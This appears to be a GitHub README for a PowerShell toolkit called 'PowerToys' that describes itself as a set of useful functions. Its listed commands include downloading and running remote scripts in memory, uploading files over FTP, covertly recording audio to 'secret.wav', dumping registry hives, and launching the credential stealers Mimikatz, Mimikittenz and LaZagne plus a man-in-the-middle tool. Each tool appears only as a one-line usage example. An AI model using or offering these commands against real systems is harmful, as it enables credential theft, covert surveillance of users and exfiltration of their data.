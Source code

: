 # PowerToys v1.0
PowerToys is a powershell collection of userfull functions like ftp upload, download functions, run in memory, unzip functions, etc. It is distributed under the GNU GPLv3 license.
## List of tools
### Download
Example desc.
```
Download -url "https://example.com/file.txt" -outfile "c:\windows\temp\file.txt"
```
### DownloadString
Example desc.
```
DownloadString -url "http://example.com/a.ps1" 
```
### Unzip
Example desc.
```
Unzip -zipfile "myzip.zip" -path "c:\windows\temp"
```
### #UploadFtp
Example desc.
```
UploadFtp -address "192.168.0.1" -username "username" -password "password" -pathFileName "/folder/file.txt" -uploadfile "file.txt"
```
### RunVoiceRecord
Example desc.
```
RunVoiceRecord -fullPathOutput "C:\windows\temp\secret.wav" -seconds 120
```
### DumpHives
Example desc.
```
DumpHives -dumpfolder "C:/windows/temp"
```
### RunMitmp
Example desc.
```
RunMitmp
```
### RunLazagne
Example desc.
```
RunLazagne
```
### RunMimikatz
Example desc.
```
RunMimikatz
```
### RunMimikittenz
Example desc.
```
RunMimikittenz
```
